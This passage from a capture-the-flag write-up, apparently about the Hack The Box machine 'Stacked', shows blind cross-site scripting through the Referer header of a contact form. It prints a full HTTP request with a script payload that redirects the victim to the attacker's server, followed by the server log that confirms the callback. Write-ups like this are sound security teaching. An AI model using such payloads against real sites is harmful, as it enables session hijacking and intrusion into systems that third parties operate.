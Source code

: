 There’s two ways to get around an error like this. One would be to try to
bypass the filter with creative payloads that don’t trigger the filter but
still execute JavaScript I provide. Unfortunately, I wasn’t able to find any
way to do that.

The other is to try other fields. I’ll go through Burp to try the fields with
client-side filtering, but all of them trigger the alert.

#### Referer

Thinking about what happens on submitting, there is an HTTP POST request to
`process.php`. This script will parse the incoming request, pulling out
whatever information from the request it wants, and generate some way to send
that to the user who needs to handle the requests.

There may be cases where it makes sense to include something like the referrer
header in this information. For example, if the same web page is used to
manage contact me submissions from multiple sites. There’s a real life example
of XSS in the Referer head
[here](https://www.horizon3.ai/news/disclosures/mautic-unauth-xss-to-rce).

I’ll kick the form submission request over to Burp Repeater and set the
referrer header to the XSS payload:

    
    
    POST /process.php HTTP/1.1
    Host: portfolio.stacked.htb
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 208
    Origin: http://portfolio.stacked.htb
    DNT: 1
    Connection: close
    Referer: <script>document.location="http://10.10.14.6/referer"</script>
    
    fullname=0xdf&email=0xdf%40stacked.htb&tel=012345667890&subject=Help&message=Please+help
    

On sending that, a few minutes later there are three requests at my Python
webserver:

    
    
    oxdf@hacky$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /referer HTTP/1.1" 404 -
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -
    10.10.11.112 - - [24/Aug/2021 11:15:04] code 404, message File not found
    10.10.11.112 - - [24/Aug/2021 11:15:04] "GET /favicon.ico HTTP/1.1" 404 -
    